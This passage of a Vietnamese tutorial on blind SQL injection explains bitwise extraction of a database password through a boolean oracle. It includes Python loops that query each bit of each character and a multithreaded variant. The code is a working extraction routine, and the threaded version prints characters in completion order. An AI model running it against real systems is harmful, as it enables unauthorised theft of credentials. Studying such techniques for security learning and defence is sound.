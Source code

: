 #### **Ví dụ hoạt động**
Tìm ký tự **`9`** (ASCII = 57, nhị phân = `0111001`):
1. Kiểm tra bit thứ 1: **`ASCII & 1 > 0`** → Kết quả **True**, bit = 1.
2. Kiểm tra bit thứ 2: **`ASCII & 2 > 0`** → Kết quả **False**, bit = 0.
3. Tiếp tục kiểm tra đến bit thứ 7.

#### **Triển khai bằng Python**
```python
# Tìm mật khẩu mục tiêu bằng thuật toán SQL-Anding
print("[*] Password = ", end='')

for i in range(1, length + 1):  # Duyệt qua từng ký tự
    c = 0
    for p in range(7):  # Kiểm tra từng bit
        if oracle(f"ASCII(SUBSTRING(password,{i},1)) & {2**p} > 0"):
            c |= 2**p  # Ghi nhận giá trị bit vào ký tự

    print(chr(c), end='')  # In ký tự đã tìm được
    sys.stdout.flush()

print()
```

#### **Hiệu quả**
- Tổng số truy vấn: **256**.
- Thời gian thực thi: **60.281 giây** (nhanh hơn **Bisection**).

---

### **3. Tối ưu hóa với Multithreading**

#### **Ý tưởng**
- Với **Bisection**: Các truy vấn cho một ký tự phụ thuộc nhau, nhưng ký tự khác độc lập.
  → Chạy song song các truy vấn cho nhiều ký tự.
- Với **SQL-Anding**: Tất cả các truy vấn độc lập.
  → Chạy song song mọi truy vấn.

#### **Triển khai với Python (Multithreading)**
```python
import threading

# Hàm xử lý cho từng ký tự
def dump_character(index):
    c = 0
    for p in range(7):
        if oracle(f"ASCII(SUBSTRING(password,{index},1)) & {2**p} > 0"):
            c |= 2**p
    print(chr(c), end='')
    sys.stdout.flush()

# Tạo và khởi chạy các luồng
threads = []
for i in range(1, length + 1):
    t = threading.Thread(target=dump_character, args=(i,))
    threads.append(t)
    t.start()

# Đợi tất cả luồng hoàn thành
for t in threads:
    t.join()

print()
```
